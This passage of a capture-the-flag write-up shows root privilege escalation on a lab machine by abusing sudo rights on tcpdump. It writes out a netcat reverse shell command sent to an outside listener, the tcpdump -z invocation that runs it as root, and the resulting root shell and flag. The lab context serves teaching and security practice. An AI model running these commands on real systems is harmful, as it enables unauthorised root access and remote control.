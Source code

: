 ## Privilege Escalation
### Sudo Permissions

An awesome guide how to exploit this you can find it [here](https://gtfobins.github.io/gtfobins/tcpdump/#sudo).

First we write a reverse shell into a file and give it execution permissions.

```bash
[fireman@localhost root]$ echo 'nc 192.168.179.1 8081 -e /bin/bash' > /tmp/r00t
<ho 'nc 192.168.179.1 8081 -e /bin/bash' > /tmp/r00t
[fireman@localhost root]$ chmod +x /tmp/r00t
chmod +x /tmp/r00t
```

Then, we set up a netcat listener and run the following command to get a reverse shell as user root.

```bash
[fireman@localhost root]$ sudo /usr/sbin/tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/r00t -Z root
<-i eth0 -w /dev/null -W 1 -G 1 -z /tmp/r00t -Z root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
6 packets received by filter
0 packets dropped by kernel
[fireman@localhost root]$
```

As we can see now we are root and we can read the root flag.

```bash
root@kali:~$ nc -vlnp 8081  
listening on [any] 8081 ...         
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.1] 33895
script -qc /bin/bash /dev/null                        
[root@localhost ~]#
```

```bash
[root@localhost ~]# ls
ls
flag.txt
[root@localhost ~]# cat flag.txt
cat flag.txt
[+] You're a soldier.
[+] One of the best that the world could set against
[+] the demonic invasion.

+-----------------------------------------------------------------------------+
| |       |\                                           -~ /     \  /          |
|~~__     | \                                         | \/       /\          /|
|    --   |  \                                        | / \    /    \     /   |
|      |~_|   \                                   \___|/    \/         /      |
|--__  |   -- |\________________________________/~~\~~|    /  \     /     \   |
|   |~~--__  |~_|____|____|____|____|____|____|/ /  \/|\ /      \/          \/|
|   |      |~--_|__|____|____|____|____|____|_/ /|    |/ \    /   \       /   |
|___|______|__|_||____|____|____|____|____|__[]/_|----|    \/       \  /      |
|  \mmmm :   | _|___|____|____|____|____|____|___|  /\|   /  \      /  \      |
|      B :_--~~ |_|____|____|____|____|____|____|  |  |\/      \ /        \   |
|  __--P :  |  /                                /  /  | \     /  \          /\|
|~~  |   :  | /                                 ~~~   |  \  /      \      /   |
|    |      |/                        .-.             |  /\          \  /     |
|    |      /                        |   |            |/   \          /\      |
|    |     /                        |     |            -_   \       /    \    |
+-----------------------------------------------------------------------------+
```
